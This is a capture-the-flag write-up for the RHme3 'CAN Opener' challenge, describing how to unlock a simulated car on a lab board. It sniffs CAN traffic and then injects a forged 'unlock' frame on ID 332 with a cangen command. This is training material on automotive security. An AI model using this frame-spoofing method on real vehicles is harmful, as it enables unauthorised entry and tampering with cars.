


# [CAN Opener](https://rhme.riscure.com/3/challenge?id=13)

Controller Area Network - 150pts

## Challenge text

Our operatives have recovered a DeLorean in the ruins of an old mid-west US town. It appears to be locked, but we have successfully accessed its internal communications channels. According to the little data we have, the DeLorean internally uses an archaic technology called CAN bus. We need you to analyze the communications and find a way to unlock the vehicle; once unlocked, recover the secret flag stored inside. We have reason to believe that vehicle entry should be a fairly easy challenge, but to aid you in this, we have restored and reconnected the vehicle dashboard.

Best of luck.

The Dashboard app was available during the CTF.

Challenge developed by Argus Cyber Security.

## Solution

### Solution overview

The solution to this challenge is basically to identify which CAN ID controls door locks, rewrite it, and manually feed it back onto the CAN bus.  It's that simple.

### Preparation

If you haven't done so already, follow the [Beaglebone Black CAN preparation](../Preparation/BBB_CAN_setup.md) guide to get ready for working with CAN bus.

Make the following connections:
* Connect the two ECUs on the RHme3 board using jumpers.
* Connect the Beaglebone Black to the RHme3 ECUs using twisted pair wiring via a CAN transciever such as a Carloop CAN Hitch.  The Beaglebone Black is capable of using two CAN transcievers, but you only need one for this challenge.

Determine the serial port used for RHme3 board, then start up the Dashboard app:

	> cd rhme3dash-master; dashboard.py COM42
	$ cd rhme3dash-master; dashboard.py /dev/ttyUSB0

### Analysis

A quick analysis using cansniffer on the Beaglebone Black shows that CAN ID 332 may be useful:

	$ cansniffer -c can0
	332  6C 6F 63 6B 00 00 00 00 lock....

### Attack

Let's attempt to rewrite this as "unlock" and feed it back using cangen:

	332  75 6E 6C 6F 63 6B 00 00 unlock..
	$ cangen -I 332 -L 8 -D 756E6C6F636B0000 -n 5 can0

On the dashboard, the door indicator lights up and the flag is displayed in the lower left corner.

